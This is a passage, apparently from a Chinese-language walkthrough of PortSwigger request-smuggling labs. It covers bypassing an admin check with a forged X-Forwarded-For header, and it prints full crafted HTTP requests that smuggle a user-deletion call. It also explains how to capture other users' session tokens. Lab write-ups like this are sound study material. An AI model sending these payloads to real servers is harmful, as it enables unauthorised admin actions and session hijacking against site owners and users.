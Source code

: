 ```

```

![image-20200715165211125](http%E8%B5%B0%E7%A7%81/1594912465.png!small)

重新构造一下xff头，值改为127.0.0.1，可查看到`/admin`界面

![image-20200715165730569](http%E8%B5%B0%E7%A7%81/1594912474.png!small)

构造删除用户数据包：

```
POST / HTTP/1.1
Host: ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 170
Connection: close
Cookie: session=Udg4bkicRfjM9f2QNx0zP6Z51mcp0cfW
Upgrade-Insecure-Requests: 1
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-FxStVB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1

```

![image-20200715170954582](http%E8%B5%B0%E7%A7%81/1594912484.png!small)

### 5.3 捕获其他用户的请求

如果应用程序包含任何允许存储和检索文本数据的功能，则可以使用HTTP请求走私来捕获其他用户请求的内容。这些可能包括会话令牌，启用会话劫持攻击或用户提交的其他敏感数据。用作攻击手段的合适功能是注释，电子邮件，配置文件描述，屏幕名称等。

要进行攻击，您需要走私一个将数据提交到存储功能的请求，其参数包含位于请求最后的数据。后端服务器处理的下一个请求将附加到走私请求上，结果将存储另一个用户的原始请求。

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests

访问博客文章并发表评论。将`comment-post`请求发送到Burp Repeater，将主体参数随机播放，以使该`comment`参数最后出现，并确保它仍然有效。将`comment-post`请求`Content-Length`增加到400，然后将其走私到后端服务器，构造数据包：

```
POST / HTTP/1.1
Host: ac9e1f401f037f30802f1770002200fc.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=GvJSTvhXyJeJlPNbJZHneuEjDwJL24XL
Upgrade-Insecure-Requests: 1
Content-Length: 259
Transfer-Encoding: chunked

```